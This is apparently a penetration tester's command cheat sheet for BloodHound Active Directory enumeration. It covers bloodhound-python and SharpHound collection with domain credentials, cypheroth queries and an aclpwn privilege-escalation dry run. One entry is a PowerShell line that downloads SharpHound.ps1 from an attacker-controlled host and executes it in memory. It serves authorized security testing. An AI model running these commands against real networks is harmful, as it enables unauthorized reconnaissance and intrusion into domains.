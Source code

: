 # bloodhound

% bloodhound, Active directory enumeration

## start neo4j server
#plateform/linux #target/serve #cat/UTILS
https://neo4j.com/docs/

```bash
sudo systemctl start neo4j
```

## bloodhound start IHM
#plateform/linux #target/local #cat/RECON
https://github.com/BloodHoundAD/BloodHound

```bash
bloodhound
```
## bloodhound - collect data (proxychains)
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -d <domain> -u <user> -p <password> -c <method|DCOnly> --dns-tcp -ns <dns-ip> -dc <dc-name>
```

## bloodhound - collect data
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -d <domain> -u <user> -p <password> -c <method|DCOnly>
```

## bloodhound - collect data (kerberos)
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py
add the DNS to /etc/hosts 

```bash
bloodhound-python -d <domain> -u <user> -p <password> -c <method|DCOnly> -ns <ip> --kerberos
```

## bloodhound - collect data (dns)
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -ns <ip> -d <domain> -u <user> -p <password> -c <method|DCOnly>
```

## bloodhound - collect data (alternative)
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -d <domain> -u <user> -p <password> -gc <global_catalog> -dc <domain_controler> -c <method|DCOnly>
```

## sharphound - collect bloodhound data
#plateform/windows #target/remote #port/389 #port/631 #cat/RECON
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

```powershell
import-module sharphound.ps1
invoke-bloodhound -collectionmethod <method|DCOnly> -domain <domain>
```

## sharphound - collect bloodhound data download and execute
#plateform/windows #target/remote #port/389 #port/631 #cat/RECON
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/SharpHound.ps1') | Invoke-BloodHound -CollectionMethod All  -domain <domain>
```

## cypheroth - start
#plateform/linux #target/local #cat/RECON 
Toolset that runs cypher queries against Bloodhound's Neo4j backend and saves output to spreadsheets.

https://github.com/seajaysec/cypheroth

```bash
cypheroth -u <bh_user|neo4j> -p <bh_password|exegol4thewin> -d <domain>
```

## aclpwn - from computer to domain - dry run
#plateform/linux #target/local #cat/RECON 
Aclpwn.py is a tool that interacts with BloodHound to identify and exploit ACL based privilege escalation paths.

https://github.com/fox-it/aclpwn.py

```
aclpwn -f <computer_name> -ft computer -d <domain> -dry
```



